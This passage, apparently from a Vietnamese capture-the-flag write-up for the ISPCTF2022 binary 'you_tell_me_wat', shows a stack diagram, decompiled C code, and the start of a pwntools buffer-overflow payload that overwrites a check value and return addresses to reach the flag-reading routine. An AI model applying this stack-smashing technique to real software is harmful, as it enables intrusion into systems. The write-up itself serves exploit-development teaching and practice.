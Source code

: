 
```
| 2nd param | low address
|-----------|
| 1st param | 
|-----------|
|   wat2    |
|-----------| 
|   wat1    |
|-----------|
| saved ebp |
|-----------| 
|    v2     |
|-----------|
|   s[32]   |
|           |
|-----------| high address
```

Tại wat2 sau khi nhập input sẽ gọi hàm `v3(s)` hay `notfun(s)`, hàm `notfun` sẽ tiến hành chấm điểm cho chuỗi nhập vào nếu số điểm bằng `322376503 (0x13371337)` sẽ pass và lấy được mảnh flag cuối cùng
```
int __cdecl notfun(char *s)
{
  size_t i; // [esp+8h] [ebp-10h]
  int v3; // [esp+Ch] [ebp-Ch]

  v3 = 0;
  for ( i = 0; i < strlen(s); ++i )
    v3 += s[i];
  if ( v3 == 322376503 )
  {
    puts("[ + ] tak3 iT");
    flag3 = readflag("ISPCTF2022.flag");
    print_flag();
  }
  else
  {
    puts("[ + ] s0 b0r1Ng");
  }
  return 0;
}
```
Cơ chế tính điểm của hàm rất đơn giản, cộng giá trị của kí tự trong chuỗi để ra số điểm
Vấn đề là giá trị tối đa của s[i] là 255 (0xff) => giá trị tối đa ta có thể đạt được là 0xff x 60 = 15300 điểm. Quá nhỏ so với số điểm cần đạt.
Cách giải quyết rất đơn giản, thay đổi giá trị v3 trong hàm wat2, từ đó thay vì gọi hàm notfun hãy control đến thẳng vị trí mong muốn `(readflag thứ 3)`

# 3. Viết payload
```
from pwn import *
p = process("./you_tell_me_wat")
#p = remote("4.tcp.ngrok.io", 15961)
wat1 = 0x0804887d #0x0804880d
wat2 = 0x08048795 #0x08048725
win = p32(0x08048727) #p32(0x80486B7)
# gdb.attach(p)

pl =  32*"A"+p32(0x13371337) # modify bypass check value
pl += "A"*(48-36) # padding payload
pl += p32(wat1) + p32(wat2) + p32(1987406921) + p32(1852729677) # 2 param to check in wat1 and return address to wat2
```